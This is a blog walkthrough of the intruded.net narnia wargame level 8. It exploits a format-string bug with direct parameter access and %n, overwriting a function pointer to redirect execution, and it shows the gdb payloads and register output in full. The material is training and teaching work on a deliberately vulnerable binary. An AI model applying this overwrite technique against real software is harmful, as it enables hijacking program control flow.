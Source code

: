 title: intruded.net, narnia: level 8
Date: 2011/09/27 00:28
Author: Ken Ko
Tags: intruded.net, narnia, gdb, format string

Initial idea: exploit the string format in snprintf() to overwrite the function pointer and make it redirect to hackedfunction() instead of goodfunction(). 

Let's run an <strong>objdump -d level8 | less</strong> to see what we have to work with:

<code>
08048554 <vuln>:
...
 8048612:       ff d0                   call   *%eax

0804867a <goodfunction>:

080486a0 <hackedfunction>:
</code>

So, that doesn't really help me at all right now. Time to gdb?

Taking a look <a href="http://www.epanastasi.com/?page_id=60">here</a> for string format vulnerabilities. Of interest is the "Direct Parameter Access" section. There they say using <strong>%7$d</strong> "accesses the memory for the 7th argument". Then, let's try out their example:

<code>
$ cat print.c
#include <stdlib.h>
#include <stdio.h>

int main () {
    printf("Argument 7: %7$d, Argument 2: %2$d \n", 10, 20, 30, 40, 50, 60, 70, 80);
}
$ ./print
Argument 7: 70, Argument 2: 20
</code>

Damn. TIL.

So the pressing issue: how is this useful? Initial reaction says that this saves us from needing to constantly pop the stack. A different perspective (more information, basically) can be found <a href="http://www.exploit-db.com/papers/13239/">here</a> at exploit-db. Additionally, the <a href="http://www.defcon.org/images/defcon-18/dc-18-presentations/Haas/DEFCON-18-Haas-Adv-Format-String-Attacks.pdf">presentation on string format vulnerabilities given by Haas</a> in DEFCON 18 mentions the following, in passing:

<code>
%5$n = %p%p%p%p%p%n
</code>

Giving this another try:

<code>
AAAABBBB%7\$n == AAAABBBB%x%x%x%x%x%x%n
</code>

Looks like both of these give the same result. So, we save space. That's pretty cool; definitely a lot more convenient than adding and removing %x everywhere. We can't exactly call upon %s because the output doesn't get printed to stdout, so let's try to write it to a variable--preferably, <strong>$eax</strong>.

So now that we can read memory addresses, what's in the function pointer? We should get our address, first...

<code>
(gdb) r hi
Starting program: /wargame/level8 hi
goodfunction() = 0x804867a
hackedfunction() = 0x80486a0

before : ptrf() = 0x804867a (0xbffff98c)
</code>

Cools. Let's read this:

<code>
(gdb) r `python -c 'print "\x8c\xf9\xff\xbf"'`%6\$n
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()
(gdb) i r
eax            0x4      4
ecx            0x0      0
edx            0x4      4
ebx            0xb7fdfff4       -1208090636
esp            0xbffff96c       0xbffff96c
ebp            0xbffffa18       0xbffffa18
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x4      0x4
eflags         0x10282  [ SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

What.

Makes sense, we wrote four bytes (the address) prior to the %n. Translate 0x80486a0 to decimal and we have 134514336d. Subtract four for the offset, and try it out:

<code>
(gdb) r `python -c 'print "\x7c\xf9\xff\xbf"'`%134514332x%6\$n
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /wargame/level8 `python -c 'print "\x7c\xf9\xff\xbf"'`%134514332x%6\$n
goodfunction() = 0x804867a
hackedfunction() = 0x80486a0

before : ptrf() = 0x804867a (0xbffff97c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048612 in vuln ()
(gdb) i r
eax            0x80486a0        134514336
ecx            0x0      0
edx            0x80486a0        134514336
ebx            0xb7fdfff4       -1208090636
esp            0xbffff960       0xbffff960
ebp            0xbffffa08       0xbffffa08
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x8048612        0x8048612 <vuln+190>
eflags         0x282    [ SF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Winner winner chicken dinner.

Moving on to behemoth!
